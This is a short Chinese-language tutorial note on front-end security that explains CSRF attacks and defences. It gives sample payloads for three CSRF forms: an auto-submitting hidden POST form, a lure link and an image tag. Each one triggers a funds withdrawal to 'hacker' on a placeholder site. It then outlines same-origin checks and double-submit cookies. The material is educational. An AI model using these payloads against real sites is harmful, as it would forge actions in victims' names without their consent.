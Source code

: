 # 前端 | CSRF 的攻击类型与防御

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

CSRF 攻击是攻击者借助受害者的 Cookie 骗取服务器的信任，可以在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击服务器，从而在并未授权的情况下执行在权限保护之下的操作。

### POST 类型的 CSRF

```html
<form action="http://a.com/withdraw" method="POST">
  <input type="hidden" name="account" value="airing" />
  <input type="hidden" name="amount" value="10000" />
  <input type="hidden" name="for" value="hacker" />
</form>
<script>
  document.forms[0].submit()
</script>
```

### 链接类型的 CSRF

```html
<a href="http://a.com/withdraw.php?amount=1000&for=hacker" taget="_blank">
  屠龙宝刀，点击就送！
  <a
/></a>
```

### GET 类型的 CSRF

```html
<img src="http://a.com/withdraw?amount=10000&for=hacker" />
```

## CSRF 的防御方法

### 2.1.1 同源检测

- Origin Header
- Referer Header

### 双重 Cookie 验证

在用户访问网站页面时，向请求域名注入一个 Cookie，内容为随机字符串。
在前端向后端发起请求时，取出 Cookie，并添加到 URL 的参数中。
后端接口验证 Cookie 中的字段与 URL 参数中的字段是否一致，不一致则拒绝。

## links

- [前端 | CSRF 的攻击类型与防御](https://zhuanlan.zhihu.com/p/61827277)
